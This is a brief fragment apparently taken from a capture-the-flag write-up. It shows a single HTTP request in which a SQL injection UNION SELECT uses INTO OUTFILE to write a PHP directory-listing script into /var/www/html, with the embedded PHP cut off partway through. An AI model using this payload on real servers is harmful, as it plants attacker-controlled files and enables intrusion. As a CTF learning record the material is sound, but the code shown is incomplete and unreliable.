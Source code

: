 File Upload 
------------------
```
GET /?search=x'+union+all+select+'isDot()) { continue; } echo $file->getFilename() . ""; } } catch (Exception $e) { echo "Error: " . $e->getMessage(); } ?>',null,null+into+outfile+'/var/www/html/ipol.php';--+x HTTP/1.1
```
- Note: `into outfile <path>` uploads a file
  
[Source](https://github.com/PranjalBasak/1753CTF24-Writeups/blob/main/flag-vault/writeup.md)
